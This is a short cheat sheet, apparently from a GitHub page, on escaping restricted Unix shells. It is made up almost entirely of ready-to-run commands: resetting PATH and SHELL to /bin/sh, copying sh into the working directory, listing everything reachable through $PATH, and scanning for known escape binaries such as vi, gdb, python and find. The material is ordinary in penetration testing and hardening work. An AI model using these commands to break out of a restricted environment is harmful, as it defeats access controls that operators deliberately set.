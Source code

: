 ## Restricted shells can't run all commands, but they can run bash 😉

### quick wins from https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=7
```
/bin/sh
export PATH=/bin:/bin/sh:$PATH 
export SHELL=/bin/sh
cp /bin/sh $PWD; sh
```

### [BASH-ONLY] Enumerate all files accessible in the $PATH:
```IFS=:; for i in $PATH; do IFS= ; for j in $i/*; do echo $j; done; done;```

### [BASH-ONLY] Test for known executables that can be used to break out of the bash -r that reside in the $PATH (not a complete list):
```echo displaying current env; echo; echo; env; echo; echo; echo displaying current exported variables; echo; echo; export -p; echo; echo; IFS=:; EXES="ftp gdb scp vi vim emacs bash sh ssh python* g++ gcc clang++ clang csh ksh tcsh chmod tcpdump perl awk find more less man tee ruby lua irb"; for i in $PATH; do IFS=' '; for j in $i/*; do for k in $EXES; do if [[ "$j" == */$k ]]; then echo $k is here $j; fi; done; done; done;```

